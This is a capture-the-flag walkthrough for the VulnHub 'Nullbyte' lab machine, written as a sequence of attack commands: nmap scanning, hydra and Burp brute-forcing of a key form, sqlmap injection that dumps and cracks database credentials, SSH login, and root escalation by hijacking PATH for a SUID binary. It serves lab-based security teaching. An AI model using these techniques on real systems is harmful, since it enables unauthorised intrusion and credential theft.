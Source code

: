 # NullByte

Nullbyte Walkthrough

### Details

* Name: Nullbyte ([VulnHub](https://www.vulnhub.com/entry/nullbyte-1,126/))
* Goal/Objective: Get */root/proof.txt*

### Scanning

Begin by using *netdiscover* to scan for computers/devices on the network:
```bash
sudo netdiscover
```

This returns the IP address of the target machine: ***192.168.132.88***. From there do a intial nmap scan on the network:
```bash
nmap -A -p0-65535 192.168.132.88
```

Ports found open:     
- 80/tcp - HTTP 
- 111/tcp - RPCBIND
- 777/tcp - SSH
- 60316/tcp

Two services that stand out are HTTP & SSH. Note that SSH (port 22) is being forwarded to port 777 (keep in mind for later).

### Website Exploring

I then proceeded to visit the website (http://192.168.132.88:80) to some investigating. The source code for the website did not display anything promising as it only contains a image & some text.

However, I decided to check the image using exiftool to see if there was anything hidden within the metadata:
```bash
exiftool main.gif
```
Looking through the output, I was able to see that there was a section labeled "comments" that contained something that could be useful: *P-): kzMb5nVYJw*


While all this was being done, I did my normal routine of website scanning to help look for extra directories, etc:
```bash
# nikto scan
nikto -h http://192.168.132.88

# gobuster
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -t 20 -u http://192.168.132.88/

# dirb
dirb 192.168.132.88
```
The most important directories that were returned were */uploads* and ***/phpmyadmin/***

### 'Key' cracking

Remember that string that was returned by exiftool? The one labeled as a comment? "P-): kzMb5nVYJw". Yeah we're going to need that. If you remove the first couple of characters up until the space, you're left with "kzMb5nVYJw". This ends up being a directory within the website, http://192.168.132.88/kzMb5nVYJw.

On this page we see a very simple page that contains a textbox titled "Key". However the issue is.. we don't have a key yet.

There are two ways to approach cracking this "Key", using Hydra or Burpsuite. I will show you both.

### Hydra

If you open up the developer tools and go to the "Network" tab, and reload the website. You notice there is a POST request being made. If you click on it and expand the "Request" tab, you see that it is a value *key* is being used as form data. With all this in mind, we can use it to construct a hydra command to help us guess the value of "key".
```bash
hydra -l none -P /usr/share/wordlists/rockyou.txt 192.168.132.88 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```
A quick breakdown of the command we're using:
* -l: username (none)
* -P: "password" wordlist
* http-post-form: Recall it is a POST call being made using the form
* "/kzMb5nVYJw/index.php:key=^PASS^:invalid key": We encode the *key* to be url encoded so that it can be passed as an argument, then we use '^' to surround the value that we want hydra to brute form, the password aka the "key"

The hydra command is able to find the password/key: elite

### Burpsuite

We will use burpsuite to also brute-force the value of "key".

Start off by opening Burpsuite and selecting the proxy tab. Then click on "open browser" and visit the page that needs the key, http://192.168.132.88/kzMb5nVYJw. Next click on "interceptor on", then on the website type in anything into the textbox and press enter. 

Then once the data is returned/shown on burpsuite, next to the "intercept is on" button, click on "Action" button and select "Send to Intruder". This will send the information over to the Intruder tab.
Switch to the Intruder tab, and at the bottom of the page, highlight the section of the string after the "=" and click on button on the right "Add". Once this is done, you should be able to switch tabs from "Positions" over to the "Payloads" tab. From here the only thing you need to do is on the "Payload setting", click on "Load" and go to "/usr/share/wordlists" to select the wordlist you would like to use. Once you have done this, you may press the orange button on the top right, "Start attack".

## SQL

Now that we have the key, we can use it on the page. We are now greeted with a page that seems to allow us to search for usernames.

Leaving the text-box empty and pressing enter returns a couple of entries from what appears to be a employee database. 

Since this seems to use mysql, let's try using *sqlmap* to explore the database.
```bash
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" --dbs
```
We see that sqlmap returns 5 databases. The two that we will explore are 'mysql' and 'seth'.

If you are not familiar with SQL, recall: A database contains tables. A table can be pictured as an excel file, where there are rows and columns of information.

### 'mysql' table

Let's first explore the *mysql* database
```bash
# Check what tables are in the 'mysql' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql --tables

# Check what columns are in the 'user' table (from the 'mysql database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user --columns

# Display User + Password from the 'user' table (from the 'mysql' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user -C User,Password --dump
# Note that the command above will ask if you would like sqlmap to try and crack the passwords via a dictionary-based attack - select 'Y', then press enter to use the default password list.
```
sqlmap returns:
* User: ***root*** | Password: ***sunnyvale***
* User: ***phpmyadmin*** | sunnyvale***

### 'seth' table

Next, let's explore the *seth* database
```bash
# Check what tables are in the 'seth' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth --tables

# Check what columns are in the 'users' table (from the 'seth database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users --columns

# Display user + pass from the 'users' table (from the 'seth' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C user,pass --dump
```
sqlmap returns:
* user: ***ramses*** | pass: ***YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE1***
* You can use a website to decrypt this md5 password twice to get the password: ***omega***

## SSH

One thing to quickly notice is that we now have the credentials for the */phpmyadmin/* page (root/sunnyvale). However, I wasn't able to find anything important here.

So instead, let's try and use the credentials that we found from the 'seth' database to try and login via SSH:
```bash
# Notice we're using port 777
ssh ramses@192.168.132.88 -p 777
```

## Priviledge Escalation

Now that we're in, we need to find a way to get root user.

Check to see if anything is out of the ordinary:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Notice that there is something within the www directory called 'procwatch'. If we try to run it, the output looks similar to a cron job.
```bash
/var/www/backup/procwatch
```

It seems that it is attempting to deploy ps, but unable to do so. Go to the directory and create a script that will launch a bash shell.
```bash
# Go to correct directory
cd /var/www/backups

# Create bash script and title it ps
echo "/bin/bash" > ps

# Add root privileges to the file
chmod 777 ps
```


Now, let's check if this is just a script to run the *ps* command:
```bash
# env = list all environment variables | grep PATH = return line containing PATH
env | grep PATH

# Alternatively you can do
echo $PATH
```

Update the PATH for environment variables:
```bash
# Essentially what this command does is add "." + $PATH
export PATH=.:$PATH
```

Finally run `./procwatch`







